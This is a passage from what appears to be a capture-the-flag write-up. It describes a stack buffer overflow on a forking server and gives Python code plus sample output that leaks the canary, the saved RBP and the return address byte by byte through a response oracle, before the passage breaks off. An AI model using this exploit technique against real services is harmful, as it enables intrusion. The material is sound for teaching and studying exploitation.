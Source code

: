 But in here, we do not have enough stack space for a long ROP chain like in ROPme, we can override the buffer (1032 bytes), the canary (1040), the old rbp (1048) and the return address (1056) and *that's it*.

Before we think about how to jump around in the program, let's use the previous technique to leak the old RBP on the stack as well as the return address.<br>
We can do that because if we want to receive "Username found!" from the server, the `main()` function would need the right stack pointer set to load values from the stack to those `write` calls. if we mess it up even a little bit, we can notice it in our client side by not receiving the message.

**Leaking the return address is a little bit more difficult**. Because we start by overriding the least significant byte, the program might return to some other location in the `main`, it could be another `fork` or `accept` and make things be a little less predictible for us. <br>
But - since the randomization is only effective for the least 12 bits of the return address, the first byte will definitely not change:

The return address from `check_username` is:
```
   0x0000555555554eca <+561>:	call   0x555555554b6f <check_username>
   0x0000555555554ecf <+566>:	test   eax,eax
```

So it would always end with `0xcf`!

```python
def leak_n_bytes(prefix, n):
    payload = prefix
    for i in range(n):
        payload = leak_next_byte(payload)
    return payload[-n:]

def main():
    payload = "davide"
    payload += "B" * (1032 - len(payload))

    print "Leaking canary"
    canary = leak_n_bytes(payload, 8)
    print "Leaking old RBP"
    old_rbp = leak_n_bytes(payload + canary, 8)
    print "Leaking return address"
    ret_addr = leak_n_bytes(payload + canary + old_rbp + chr(ord("\xcf") ^ 0xd), 7)
```

```
$ python exploit.py 
Leaking canary
Found: 0xd
Found: 0xc0
Found: 0x2a
Found: 0xf7
Found: 0x4c
Found: 0xf6
Found: 0x34
Found: 0x5d
Leaking old RBP
Found: 0x5d
Found: 0xf6
Found: 0x2b
Found: 0xad
Found: 0xf2
Found: 0x72
Found: 0xd
Found: 0xd
Leaking return address
Found: 0x13
Found: 0xe9
Found: 0x6e
```